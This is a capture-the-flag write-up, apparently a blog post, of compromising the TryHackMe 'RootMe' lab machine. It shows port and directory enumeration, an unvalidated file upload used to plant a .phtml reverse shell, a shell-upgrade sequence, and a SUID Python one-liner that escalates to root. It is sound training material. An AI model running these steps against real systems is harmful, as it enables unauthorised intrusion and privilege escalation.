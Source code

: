 ### Overview

this is a quick writeup, explaining how we got inside rRootMe machine from tryhackme.
Target Informations

### External Enumeration

Port Scaning i’ll be using nmap as regular:
```python
 nmap -v -sC -sV -oN nmap/nmap_tcp_simple 10.10.128.17
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Directory Brute Forcing

```python
kyle@local:~/rrootme.htb$ ffuf -c -u http://10.10.128.17/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt 
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
:: Progress: [62275/62275] :: Job [1/1] :: 238 req/sec :: Duration: [0:04:21] :: Errors: 3 ::
```

panel and uploads Directories seems interstings


File Upload Vulnerability (Direct file upload)

visiting uploads folder, we get a Directory listing, that let us see what the folder contain, well its empty for now LOL


![img-smpl]({{site.url}}{{site.baseurl}}/src/assets/img/1.png)


also the Panel directory has an Upload function


![img-smpl]({{site.url}}{{site.baseurl}}/src/assets/img/2.png)


the server does not validate the type of files being uploaded (phtml at least, maybe other extentions too), therefor we can upload our malicious file to get a code execution on the server.

i’ll be uploading a reverse shell, with a .phtml extention

sounds like the file has been uploaded


![img-smpl]({{site.url}}{{site.baseurl}}/src/assets/img/3.png)


and we successfully got a reverse shell

### Internal Enumeration

Getting a Full interactive shell

lets 1st Upgrade to a full interactive shell with python pty module

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty -echo raw
fg
stty rows 41 columns 166
```

### Binary Files with SUID Permission

while searching for suid files, we got a good list, and python is a one of them,


```python
www-data@rootme:/home$ find / -perm /4000 2>/dev/                                                                           
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
...
/usr/bin/python
...
/usr/bin/chfn
/usr/bin/gpasswd

www-data@rootme:/home$ ls -lat /usr/bin/python 
-rwsr-sr-x 1 root root 3665768 Aug  4 17:47 /usr/bin/python
```

### Privelege Escalation

we can easly escalate our priveleges, GTFOBins got a good set of priv escalation methods we can use.

```python
www-data@rootme:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=33(www-data) groups=33(www-data)
# cat /root/root.txt
THM{REDACTED}
```

